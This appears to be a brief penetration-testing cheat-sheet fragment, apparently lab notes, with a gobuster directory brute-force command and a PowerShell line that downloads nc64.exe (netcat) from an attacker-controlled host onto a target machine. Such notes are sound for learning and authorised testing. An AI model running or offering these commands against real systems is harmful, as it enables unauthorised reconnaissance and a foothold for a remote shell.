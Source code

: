 
### GOBUSTER
TO EXCLUDE LENGTHS
```
sudo gobuster dir -w '/home/kali/Desktop/wordlists/dirbuster/directory-list-2.3-medium.txt' -u http://$IP:80 -t 42 -b 400,403,404 --exclude-length 2166
```

## LOOKUP DEFAULT-PASSWORDS.CSV


## DOWNLOAD NETCAT
```
powershell iwr http://192.168.45.154/nc64.exe -outfile nc64.exe
```
